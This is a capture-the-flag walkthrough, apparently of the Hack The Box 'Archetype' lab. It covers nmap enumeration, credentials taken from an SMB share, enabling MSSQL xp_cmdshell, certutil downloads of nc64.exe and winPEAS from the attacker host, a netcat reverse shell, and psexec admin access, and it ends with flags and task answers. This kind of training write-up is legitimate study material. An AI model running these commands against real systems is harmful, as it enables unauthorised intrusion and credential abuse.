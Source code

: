 # Tactics

## ip

target: 10.129.244.85

attker: 10.10.15.248

## Enumeration

```bash
└─$ nmap -p- -Pn --min-rate=1000 -sV 10.129.244.85
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-23 09:30 EST
Nmap scan report for 10.129.244.85
Host is up (0.32s latency).
Not shown: 65523 closed tcp ports (conn-refused)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1433/tcp  open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 165.50 seconds
```

- smb ports are open
- Microsoft SQL Server 2017 is running on port 1433

## smbclient

`smbclient -N -L \\\\10.129.244.85`:

```bash
└─$ smbclient -N -L \\\\10.129.244.85

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.244.85 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

```

access backups share and read contents `smbclient -N \\\\10.129.244.85\\backups`

![credentials.png](./img/archetype-dtsConfig.png)

=> `Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc`

## impacket mssqlclient.py

`mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.129.244.85 -windows-auth`

```bash
Impacket v0.10.1.dev1+20230216.13520.d4c06e7f - Copyright 2022 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
```

try `xp_cmdshell`:

```bash
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell
[-] ERROR(ARCHETYPE): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
```

`enable_xp_cmdshell`

```bash
SQL (ARCHETYPE\sql_svc  dbo@master)> enable_xp_cmdshell  
[*] INFO(ARCHETYPE): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.

```

## create reverse shell

Download nc to target and create reverse shell:

```bash
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell certutil -urlcache -f http://10.10.15.248/nc.exe/nc64.exe C:\Users\sql_svc\Downloads\nc64.exe
output                                                
---------------------------------------------------   
****  Online  ****                                    

CertUtil: -URLCache command completed successfully.   

NULL                                                  

SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell C:\Users\sql_svc\Downloads\nc64.exe -e cmd.exe 10.10.15.248 4242
```

```bash
┌──(kali㉿kali)-[~/Documents/tools/windows]
└─$ nc -lvp 4242                                  
listening on [any] 4242 ...
10.129.244.85: inverse host lookup failed: No address associated with name
connect to [10.10.15.248] from (UNKNOWN) [10.129.244.85] 49677
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>

```

## user flag

```bash
C:\Windows\system32>type C:\Users\sql_svc\Desktop\user.txt
type C:\Users\sql_svc\Desktop\user.txt
3e7b102e78218e935bf3f4951fec21a3

```

## winPEAS

download winPEAS to target: `certutil.exe -urlcache -f http://10.10.15.248/winPEASx64.exe C:\Users\sql_svc\Downloads\winPEASx64.exe`

```bash
C:\Windows\system32> certutil.exe -urlcache -f http://10.10.15.248/winPEASx64.exe C:\Users\sql_svc\Downloads\winPEASx64.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

run:

```bash
C:\Users\sql_svc\Downloads\winPEASx64.exe
```

![admin-creds.png](./img/archetype-admin-creds.png)

`\\Archetype\backups /user:administrator MEGACORP_4dm1n!!`

## root flag

`psexec.py administrator:'MEGACORP_4dm1n!!'@10.129.244.85`:

```bash
┌──(kali㉿kali)-[~/Documents/tools/windows]
└─$ psexec.py administrator:'MEGACORP_4dm1n!!'@10.129.244.85
Impacket v0.10.1.dev1+20230216.13520.d4c06e7f - Copyright 2022 Fortra

[*] Requesting shares on 10.129.244.85.....
[*] Found writable share ADMIN$
[*] Uploading file IOeKKjuG.exe
[*] Opening SVCManager on 10.129.244.85.....
[*] Creating service KQlx on 10.129.244.85.....
[*] Starting service KQlx.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Windows\system32> 
```

get root flag:

```bash
C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
b91ccec3305e98240082d4474b848528
```

## Task

Task 1: Which TCP port is hosting a database server?: `1433`

Task 2: What is the name of the non-Administrative share available over SMB?: `backups`

Task 3: What is the password identified in the file on the SMB share?: `M3g4c0rp123`

Task 4: What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?: `mssqlclient.py`

Task 5: What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?: `xp_cmdshell`

Task 6: What script can be used in order to search possible paths to escalate privileges on Windows hosts?: `winpeas`

Task 7: What file contains the administrator's password?: `ConsoleHost_history.txt`

Submit user flag: done

Submit root flag: done

## References

<https://kylemistele.medium.com/impacket-deep-dives-vol-1-command-execution-abb0144a351d#:~:text=One%20of%20the%20most%20commonly>

<https://www.infosecmatter.com/rce-on-windows-from-linux-part-1-impacket/>

certutil: <https://www.ired.team/offensive-security/defense-evasion/downloading-file-with-certutil>

winpeas: <https://github.com/carlospolop/PEASS-ng/releases/tag/20230219>
